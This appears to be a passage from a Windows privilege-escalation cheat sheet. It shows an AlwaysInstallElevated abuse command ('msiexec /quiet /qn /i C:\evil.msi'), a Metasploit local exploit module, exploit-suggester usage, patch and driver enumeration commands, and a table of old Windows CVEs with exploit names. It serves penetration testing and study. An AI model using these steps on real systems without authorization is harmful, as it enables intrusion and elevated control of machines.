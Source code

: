 ```
msiexec /quiet /qn /i C:\evil.msi
```

Metasploit module:

```
use exploit/windows/local/always_install_elevated
```

### Windows-privesc-checker2

```
https://github.com/pentestmonkey/windows-privesc-check/archive/master.zip
```

## Vulnerable drivers

Third party drivers might contain vulnerabilities, find them running:

```
DRIVERQUERY
```

## Kernel vulnerabilities

#### Run exploit suggester against systeminfo:

{% hint style="info" %}
Don't rely on this - there are a lot of false positive! This is generally a last resort.
{% endhint %}

```
https://github.com/GDSSecurity/Windows-Exploit-Suggester/blob/master/windows-exploit-suggester.py
```

```
python windows-exploit-suggester.py -d 2017-05-27-mssb.xls -i systeminfo.txt
```

#### Find installed paths:

```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

### Comprehensive tables of vulnerabilities below:

```
[+] Windows vulnerabilities:

Windows XP:
CVE-2012-4349        Unquoted windows search path - Windows provides the capability of including spaces in path names - can be root
CVE-2011-1345        Internet Explorer does not properly handle objects in memory - allows remote execution of code via object
CVE-2010-3138        EXPLOIT-DB 14765 - Untrusted search path vulnerability - allows local users to gain privileges via a Trojan horse
CVE-2011-5046        EXPLOIT-DB 18275 - GDI in windows does not properly validate user-mode input - allows remote code execution
CVE-2002-1214        ms02_063_pptp_dos - exploits a kernel based overflow when sending abnormal PPTP Control Data packets - code execution, DoS
CVE-2003-0352        ms03_026_dcom - exploits a stack buffer overflow in the RPCSS service
CVE-2003-0533        MS04-011 - ms04_011_lsass - exploits a stack buffer overflow in the LSASS service
CVE-2003-0719        ms04_011_pct - exploits a buffer overflow in the Microsoft Windows SSL PCT protocol stack - Private communication target overflow
CVE-2010-3970        ms11_006_createsizeddibsection - exploits a stack-based buffer overflow in thumbnails within .MIC files - code execution
```